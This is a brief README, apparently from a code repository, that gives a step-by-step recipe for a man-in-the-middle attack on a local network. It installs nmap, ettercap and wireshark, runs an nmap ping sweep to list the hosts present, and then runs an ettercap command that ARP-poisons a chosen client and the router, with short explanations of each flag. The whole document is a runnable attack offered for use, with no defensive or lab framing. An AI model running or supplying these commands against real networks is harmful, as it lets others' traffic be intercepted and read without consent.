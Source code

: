 # Man in the Middle

## Installation
```
sudo apt install nmap
sudo apt install ettercap-text-only
sudo apt install wireshark
```

---

## Get the IP address of every device in the network:
```
sudo nmap -sn <router IP>/24
```

---

## Run the attack
```
sudo ettercap -T -S -i wlan0 -M arp:remote /<router IP>// /<client IP>//
```
### Explanation:
* `-T` - Text only (enables use in terminal)
* `-S` - Disable SSL (to not use SSL)
* `-i` - Your wireless interface
* `-M` - Specify the type of attack
